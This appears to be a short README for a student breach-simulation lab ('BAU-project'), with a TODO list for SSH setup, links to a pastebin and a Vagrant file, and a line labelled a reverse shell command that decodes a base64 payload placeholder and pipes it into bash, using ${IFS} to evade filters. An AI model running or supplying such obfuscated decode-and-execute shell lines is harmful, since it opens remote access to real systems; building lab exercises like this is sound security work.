 # BAU-project
## TODO (Zeyad)
1. SSH password auhentication
2. SSH keys for users
3. Add omar webserver files
4. Finally (Test everything)

### PakageDownloader.c
```bash
# Reverse shell command
echo${IFS}<BASE64-Encoded-Payload>|base64${IFS}-d|bash
```
## Breach similation
```
https://pastebin.com/UycbfwRP
```
### Vagrant file
- This is temporary until everything is finished then i will create a clean public repository with this file as a release 
```
https://drive.google.com/file/d/1SqLbSoCzwea5ZSVQobo-JHz9yslkiKlE/view?usp=sharing
```
